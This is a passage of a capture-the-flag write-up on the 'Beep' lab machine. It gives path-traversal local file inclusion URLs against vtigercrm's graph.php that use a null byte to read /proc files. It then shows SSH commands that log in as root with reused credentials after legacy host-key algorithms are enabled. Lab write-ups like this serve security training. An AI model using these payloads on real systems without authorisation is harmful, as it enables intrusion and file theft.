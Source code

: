 ```bash
cat data.txt | awk '{print $3}' FS=':' | awk '{print $1}' FS=' ' | sort -u
echo $((0x0016))
echo $((0x01BB))
cat data.txt | awk '{print $3}' FS=':' | awk '{print $1}' FS=' ' | sort -u | while read port; do echo -e "Port $port --> $((0x$port))"; done

# view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//proc/scheddebug%00&module=Accounts&action
# :(
# view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//proc/schedstat%00&module=Accounts&action
# :)
```

<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/beep_writeup/Beep_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After thinking for a while, I test **SSH** access as the **root** user to the victim machine, and as there is sometimes in some labs (including this one), the bad practice of reusing credentials can end up engaging the box, after being able to correct a problem with the protocols allowed in the **SSH** configuration of my machine, thanks to the **[SSH returns: no matching host key type found. Their offer: ssh-dss](https://askubuntu.com/questions/836048/ssh-returns-no-matching-host-key-type-found-their-offer-ssh-dss){:target="_blank"}** article I found on the Internet. It was not very difficult the machine, that's why it is listed as easy, but I will look for other alternative ways to continue my practice with this lab.

```bash
ssh root@10.10.10.7
# Unable to negotiate with 10.10.10.7 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss

ssh -oHostKeyAlgorithms=+ssh-dss root@10.10.10.7
ssh -o KexAlgorithms=diffie-hellman-group14-sha1 -o HostKeyAlgorithms=+ssh-dss root@10.10.10.7
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedAlgorithms=+ssh-rsa root@10.10.10.7

whoami
hostname
hostname -I
# :(
ifconfig
```
